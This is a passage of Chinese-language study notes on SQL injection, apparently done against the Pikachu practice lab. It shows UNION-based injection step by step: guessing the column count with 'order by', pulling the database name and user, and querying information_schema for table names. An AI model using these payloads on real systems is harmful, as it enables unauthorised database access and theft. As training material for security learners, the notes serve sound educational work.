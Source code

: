 ![image-20210106115034527](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210106115034527.png)

![image-20210106172156936](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210106172156936.png)

下面我们使用字符型注入来演示union注入

![image-20210106122735683](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210106122735683.png)

那么当我们使用union查询的时候，要与字段数符合。然而我们并不知道有多少字段。下面我们就需要猜测字段数了。这里使用 `order by` 这个方法进行猜测。

![image-20210106172234151](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210106172234151.png)

```
lucy' order by 1#
lucy' order by 2#
lucy' order by 3#      3报错了，那么说明我们的主查询只有两个字段
```

![image-20210106124724517](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210106124724517.png)

下面我们构建union查询-这样我们就查看到了数据库名称以及用户权限显示出来了。

```
lucy' union select database(),user()#
```

![image-20210106171941995](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210106171941995.png)

**MYSQL小知识的补充：information_schema**

![image-20210106172302096](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210106172302096.png)

## 11、information_schema手工注入

![image-20210106172614577](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210106172614577.png)

```mysql
information_schema # Mysql自带默认数据库
use information_schema;
show tables;
# 在这些表里面，有两个重要的表
# 第一个是TABLES。下面我们看看TABLES里面的字段
desc tables;
# 在这个表里面它会存 TABLE_SCHEMA 也就是说他会把整个数据库实例里面的表的相关信息都放在这里面。
# 当然，还有一个 COLUMNS 这个表。我们也来看一下这个表中存在什么
desc columns;
# 在这里也有 TABLE_SCHEMA 也就是说，所有的数据库实例的名称信息都会放在这个表里面。这里面多出来一个 列名 他会把所有列的信息也会记录下来。
```

**获取表名的MySQL语句：**

```mysql
select id,email from member where username = 'lucy' union select table_schema,table_name from information_schema.tables where table_schema='pikachu';
```
